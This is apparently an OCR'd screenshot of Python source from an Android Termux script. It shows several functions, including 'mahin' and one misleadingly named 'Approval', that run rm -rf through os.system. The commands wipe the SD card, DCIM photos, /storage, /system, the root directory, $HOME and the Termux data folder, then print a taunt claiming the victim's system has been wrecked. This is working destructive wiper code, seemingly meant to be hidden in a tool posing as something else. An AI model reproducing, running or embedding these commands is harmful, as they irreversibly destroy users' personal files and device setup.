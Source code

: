     os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}');time.sleep(2)

def mahin():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}');time.sleep(2)

    

def Approval():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")
